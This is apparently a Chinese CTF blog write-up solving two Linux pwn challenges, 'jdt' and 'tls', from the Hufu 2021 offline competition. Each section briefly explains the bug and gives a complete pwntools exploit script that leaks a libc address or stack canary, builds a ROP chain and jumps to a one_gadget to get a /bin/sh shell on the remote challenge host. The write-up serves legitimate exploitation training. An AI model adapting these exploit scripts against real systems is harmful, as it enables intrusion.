 ```yaml
---
layout: article
pageview: true
key: hufu2021-pwn-wp
title: 虎符2021线下Pwn题WP
author: Ch4rc0al

#cover: /img/cover.jpg
categories:
  - WriteUps
tags:
  - Pwn 
  - CTF
# nolastmod: true
---
```


<!--more-->

## jdt

>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      PIE enabled  

题目在栈上操作，代码审计发现虽然只能创建16个book，但可以edit和show第17个book，会打印出rbp附近内容。

我们获取并利用`__libc_start_main_ret`的真实地址来得到远程libc版本和libc基址，网上下载libc文件得到`one_gadget`偏移，修改ret为`ong_gadget`即可，需要注意的一点是我们需要在栈中填充一定的字符才能打印出地址来。
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

def create(p,a,n,d):
    sh.sendlineafter("Choice: ","1")
    sh.sendlineafter("Price?",p)
    sh.sendlineafter("Author?",a)
    sh.sendlineafter("Book's name?",n)
    sh.sendlineafter("Description?",d)
    
def edit(index,choice,data):
    sh.sendlineafter("Choice: ","2")
    sh.sendlineafter("idx?",str(index))
    sh.sendlineafter("Choice: ",str(choice))
    if(choice==1):
       sh.sendafter("Price?",data)
    elif(choice==2):
        sh.sendafter("Author?",data)
    elif(choice==3):
        sh.sendafter("Book's Name?",data)
    elif(choice==4):
        sh.sendafter("Description?",data)

def show(index):
    sh.sendlineafter("Choice: ","3")
    sh.sendlineafter("idx?",str(index))
    #sh.recv()

def sell(index):
    sh.sendlineafter("Choice: ","4")
    sh.sendlineafter("idx?",str(index))

#sh=process('./jdt')
sh=remote('dawnaa.cn',9001)
elf=ELF('./jdt')
libc=ELF('./jdt_libc')
for i in range(0,16):
    create(str(i),'aaa','bbb','ccc')

edit(16,2,"aaaaaaaa")
show(16)
sh.recvuntil("Author: ")
libc_start_main_ret=u64(sh.recv()[8:14]+"\x00\x00")

libc_base=libc_start_main_ret-libc.symbols['__libc_start_main']-231
ogg=libc_base+0x45226
edit(16,3,'aaaaaaaa'+p64(ogg))
print hex(libc_start_main_ret)
print hex(libc_base)
print hex(ogg)
show(16)
sh.send('5')
sh.interactive()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```

---
## tls
>    Arch:     amd64-64-little  
>    RELRO:    Full RELRO  
>    Stack:    Canary found  
>    NX:       NX enabled  
>    PIE:      No PIE (0x400000)  

vuln函数运行在线程中，不影响我们正常做题，gdb调试时用`thread`命令切换至线程调试即可

依然是栈题，给出了libc，审计代码发现pos没有规定范围，我们可以修改一开始设定的size并输出calc来达到泄露`canary`的目的，一开始我们需要将`rbp-16`清为0。

泄露`canary`后，我们就可以构造`rop`链用`puts`来输出真实地址，最终将ret改为`one_gadget`即可。

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
sh=remote('dawnaa.cn',9003)
#sh=process("./tls")#env = {"LD_PRELOAD" : "./tls_libc"})
elf=ELF("./tls")
libc=ELF("./tls_libc")
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","54")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","0")

sh.sendlineafter("Your choice: ","1")
sh.sendlineafter("Please input pos: ","-4")
sh.sendlineafter("Your choice: ","2")
sh.sendlineafter("Please input new number: ","56")
sh.sendlineafter("Your choice: ","3")
sh.recvuntil("result = ")
canary=int(sh.recvline()[:-1],10)
print hex(canary)

pop_rdi=0x401293
sh.sendlineafter("Your choice: ","4")
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(0x400dc4)
sh.sendlineafter("Oh!What is your name? ",payload)
sh.recvuntil("GoodBye.")
sh.recvuntil("a"*24)
sh.recvuntil("\n")
puts_got=u64(sh.recvline()[:6].ljust(8,'\x00'))
print hex(puts_got)
libc_base=puts_got-libc.symbols['puts']
print hex(libc_base)
ogg=libc_base+0x4526a
print hex(ogg)
payload='a'*0x38+p64(canary)+'bbbbbbbb'+p64(ogg)
sh.sendlineafter("How many? ","1")
sh.sendlineafter(" = ","0")
sh.sendlineafter("Your choice: ","4")
sh.sendlineafter("Oh!What is your name? ",payload)
sh.interactive()


```
